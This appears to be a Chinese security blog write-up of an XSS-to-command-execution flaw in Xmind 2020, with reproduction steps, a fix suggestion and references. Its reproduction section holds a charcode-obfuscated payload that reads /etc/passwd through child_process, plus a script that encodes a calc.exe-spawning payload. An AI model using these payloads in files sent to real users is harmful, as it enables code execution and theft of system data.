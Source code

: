 # xmind2020存在XSS漏洞可导致命令执行


### 漏洞描述

Xmind2020 存在XSS漏洞，攻击者可利用该漏洞进行命令执行。由于软件允许用户以文件形式或自定义标题标题的形式存储JS代码，攻击者可以发送带有恶意JS代码的文件。用户打开文件后，从而执行攻击者预先设定好的命令。





### 漏洞复现

测试环境：ubuntu18.04、xmind2020



**1.打开xmind后，在思维导图模式下输入以下Payload：**

```javascript
<img src=x onerror=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,10,99,111,110,115,116,32,123,32,115,112,97,119,110,32,125,32,61,32,114,101,113,117,105,114,101,40,34,99,104,105,108,100,95,112,114,111,99,101,115,115,34,41,59,10,99,111,110,115,116,32,99,97,116,32,61,32,115,112,97,119,110,40,34,99,97,116,34,44,32,91,34,47,101,116,99,47,112,97,115,115,119,100,34,93,41,59,10,99,97,116,46,115,116,100,111,117,116,46,111,110,40,34,100,97,116,97,34,44,32,100,97,116,97,32,61,62,32,123,10,32,32,32,32,97,108,101,114,116,40,96,115,116,100,111,117,116,58,32,36,123,100,97,116,97,125,96,41,59,10,125,41,59,60,47,115,99,114,105,112,116,62))>
```

解码后数据即为：

```javascript
//Decode Payload
<script>
const { spawn } = require("child_process");
const cat = spawn("cat", ["/etc/passwd"]);
cat.stdout.on("data", data => {
    alert(`stdout: ${data}`);
});</script>
```

![插入payload](http://image.xpshuai.cn/xmind_payload1.png)



补充知识：

```javascript
// 1.str转unicode序列
var c = "<script>\nvar Process = process.binding('process_wrap').Process;\nvar proc = new Process();\nproc.onexit = function(a,b) {};\nvar env = process.env;\nvar env_ = [];\nfor (var key in env) env_.push(key+'='+env[key]);\nproc.spawn({file:'c:\\windows\\system32\\calc.exe',cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});\n</script>"

var codeArr = [];
for(var i=0;i<c.length;i++){
    codeArr.push(c.charCodeAt(i));
}
console.log(codeArr);



// 2.unicode序列还原为str
var n = String.fromCharCode(60, 115, 99, 114, 105, 112, 116, 62, 10, 118, 97, 114, 32, 80, 114, 111, 99, 101, 115, 115, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 98, 105, 110, 100, 105, 110, 103, 40, 39, 112, 114, 111, 99, 101, 115, 115, 95, 119, 114, 97, 112, 39, 41, 46, 80, 114, 111, 99, 101, 115, 115, 59, 10, 118, 97, 114, 32, 112, 114, 111, 99, 32, 61, 32, 110, 101, 119, 32, 80, 114, 111, 99, 101, 115, 115, 40, 41, 59, 10, 112, 114, 111, 99, 46, 111, 110, 101, 120, 105, 116, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 97, 44, 98, 41, 32, 123, 125, 59, 10, 118, 97, 114, 32, 101, 110, 118, 32, 61, 32, 112, 114, 111, 99, 101, 115, 115, 46, 101, 110, 118, 59, 10, 118, 97, 114, 32, 101, 110, 118, 95, 32, 61, 32, 91, 93, 59, 10, 102, 111, 114, 32, 40, 118, 97, 114, 32, 107, 101, 121, 32, 105, 110, 32, 101, 110, 118, 41, 32, 101, 110, 118, 95, 46, 112, 117, 115, 104, 40, 107, 101, 121, 43, 39, 61, 39, 43, 101, 110, 118, 91, 107, 101, 121, 93, 41, 59, 10, 112, 114, 111, 99, 46, 115, 112, 97, 119, 110, 40, 123, 102, 105, 108, 101, 58, 39, 99, 58, 92, 119, 105, 110, 100, 111, 119, 115, 92, 115, 121, 115, 116, 101, 109, 51, 50, 92, 99, 97, 108, 99, 46, 101, 120, 101, 39, 44, 99, 119, 100, 58, 110, 117, 108, 108, 44, 119, 105, 110, 100, 111, 119, 115, 86, 101, 114, 98, 97, 116, 105, 109, 65, 114, 103, 117, 109, 101, 110, 116, 115, 58, 102, 97, 108, 115, 101, 44, 100, 101, 116, 97, 99, 104, 101, 100, 58, 102, 97, 108, 115, 101, 44, 101, 110, 118, 80, 97, 105, 114, 115, 58, 101, 110, 118, 95, 44, 115, 116, 100, 105, 111, 58, 91, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 44, 123, 116, 121, 112, 101, 58, 39, 105, 103, 110, 111, 114, 101, 39, 125, 93, 125, 41, 59, 10, 60, 47, 115, 99, 114, 105, 112, 116, 62);

console.log(n);
```



**2.点击大纲。在大纲模式下，选中payload，按下Ctrl+C快捷键触发该Payload，执行`calc`命令。**

![执行成功](http://image.xpshuai.cn/xmind_attack_ok.png)



### 修复建议

该漏洞在大纲模式下触发，Xmind 2020的使用者，谨慎打开Xmind的大纲模式。





### 参考

[Xmind 2020 - XSS to RCE - Multiple webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/49827)

[漏洞情报 | Xmind 2020 XSS漏洞导致命令执行 (qq.com)](https://mp.weixin.qq.com/s/JCj4yPN5ORGt1WGc7gpuDQ)

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/xmind2020%E5%AD%98%E5%9C%A8xss%E6%BC%8F%E6%B4%9E%E5%8F%AF%E5%AF%BC%E8%87%B4%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/  

